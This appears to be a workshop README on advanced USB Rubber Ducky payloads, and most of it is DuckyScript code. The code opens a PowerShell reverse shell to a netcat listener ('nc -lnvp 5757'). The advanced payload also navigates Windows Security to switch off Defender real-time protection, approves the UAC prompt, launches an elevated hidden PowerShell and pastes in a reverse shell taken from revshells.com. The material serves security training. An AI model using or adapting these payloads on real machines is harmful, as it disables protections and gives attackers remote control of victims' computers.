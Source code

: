# Rubber Ducky Advance

# Objectives ​
-   Create Basic and advance payloads.
-    Understand how to navigate the GUI
- Understand how to disable windows defender. 
- Understand Extensions 
-   Launching the payload
# Help full link
- Payload IDE(Integrated development environment). https://payloadstudio.hak5.org/community/
- A simple library of reverse shell. https://www.revshells.com/
- Ducky Quick Reference Guild​​. https://docs.hak5.org/hak5-usb-rubber-ducky/duckyscript-tm-quick-reference​​
-  Hak5 Ducky Payload Library​​. https://github.com/hak5/usbrubberducky-payloads​
- 
# Basic Shell
This is what a basic reverse shell looks like. 
~~~
REM Title:My Basic Reverse shell
REM Author: Ray
REM Description:Opens an reverse shell with powershell
REM Target: Windows 11/10

DELAY 3000 
REM ^^^ this is still a delay for 3 seconds
GUI r
REM ^^^ opens the run Window
DELAY 300
REM ^^^ Delay for 300 milliseconds
STRINGLN powershell -c <ReveShell payload>
REM ^^^ Enter payload
~~~
## Note:
You will have to replace "**\<ReveShell payload\>**" with one from https://www.revshells.com/. In this case the class will use the PowerShell #1 payload. (Don't forget to change the IP address to the listener. (kali computer))

## Setting Up Our C2 listener

 - C2 Listener is just a computer that the victim of the rubber ducky will try to connect to. (In most case it will be a kali/parrot machine with Netcat as the listener.)  
  - Command to start the Listener:
	 -  nc -lnvp 5757

### Note
It reminded to have the C2 listener on a cloud machine, so you don't have to worry about network problems. 


## What Happen When We Ran The Basic Payload.
When you ran the basic payload, you might have notice that it didn't work. But why? 
This basic payload, and all EDR/Anti malware know what a basic payload looks like. 


# Advance Payload
There are a few ways to bypass EDR/ Anti Malware services. but why spend so much time to develop a bypass when you can just turn off EDR/Anti malware. :thinking:

## Starting the Advance Payload.
Instead of using a 3000-millisecond delay, this payload will use Extension Detect-Ready module 
Extension in ducky script is just a fast way to import something in the Payload Studio IDE that might be use multiple time or in multiple payloads. 

 - To learn more about Extension https://docs.hak5.org/hak5-usb-rubber-ducky/advanced-features/extensions
~~~
EXTENSION DETECT_READY
    REM VERSION 1.1
    REM AUTHOR: Korben

    REM_BLOCK DOCUMENTATION
        USAGE:
            Extension runs inline (here)
            Place at beginning of payload (besides ATTACKMODE) to act as dynamic
            boot delay

        TARGETS:
            Any system that reflects CAPSLOCK will detect minimum required delay
            Any system that does not reflect CAPSLOCK will hit the max delay of 3000ms
    END_REM

    REM CONFIGURATION:
    DEFINE #RESPONSE_DELAY 25
    DEFINE #ITERATION_LIMIT 120

    VAR $C = 0
    WHILE (($_CAPSLOCK_ON == FALSE) && ($C < #ITERATION_LIMIT))
        CAPSLOCK
        DELAY #RESPONSE_DELAY
        $C = ($C + 1)
    END_WHILE
    CAPSLOCK
END_EXTENSION
~~~
This extension will automatically launch the payload when the computer is ready. 
## Navigate GUI to disable windows Defender settings
~~~
REM Open Windows Defender Settings
CTRL ESC
DELAY 750
STRING windows security
DELAY 250
ENTER
DELAY 1000
ENTER
~~~

 1. Ctrl Esc is a keyboard shortcut for windows start menu. To learn more about Microsoft keyboard shortcut:  https://support.microsoft.com/en-us/windows/keyboard-shortcuts-in-windows-dcc61a57-8ff0-cffe-9796-cb9706c75eec\
 2. Type out windows security. 
 3. Press Enter to open the windows security.
 4.  Press Enter again to go from home to Virus & threat protection.
~~~
REM Navigate to Manage Settings
DELAY 500
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
ENTER
DELAY 500
~~~

 - You can navigate most GUI with tab key to move forward and Shift + tab to go back.
 1. So, this part will move from the Quick Scan button to manage settings under right under virus & threat protection settings and Enter the manage settings button.

~~~
REM Open and turn off Realtime Protection
SPACE
DELAY 1000
ALT y
DELAY 1000
~~~

 1. This part will hit the space bar to toggle the on/off setting. When this happens, the UAC will active and ask for yes or no. ALT + y will hit the yes button.

~~~
REM Exit security settings
ALT F4
DELAY 500
~~~

 1. This will just close the Windows security tab.

~~~
REM Open elevated PowerShell
GUI r
DELAY 500
STRING powershell
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 1000
~~~

 1. Opens a run prompt.
 2. Types out PowerShell
 3.  Ctrl + shift + Enter when in the run prompt will open as admin
 4. hit yes in the UAC to launch PowerShell. 
~~~
REM Enter reverse shell and hides the terrminal
STRINGLN <ReveShell payload>
DELAY 200
GUI DOWNARROW
~~~
Note: don't forget to change the "\<ReveShell Payload\>" to the PowerShell #1 from the ReveShell Site (don't forget about the IP).
# Generate and putting it on the ducky. 
[ZTW24/Rubber-Ducky-Intro/README.md at main · ThreatLockerIvan/ZTW24 (github.com)](https://github.com/ThreatLockerIvan/ZTW24/blob/main/Rubber-Ducky-Intro/README.md#generate-payload-and-getting-it-on-the-ducky)
# Notes
- You will most likely have to play with the delay if it does run right.
-   The computers must be on the same network. Or host the listener on the cloud. ​ 
-   This payload will take about 25 seconds or more, if you have to change the delay for slower computers.​  
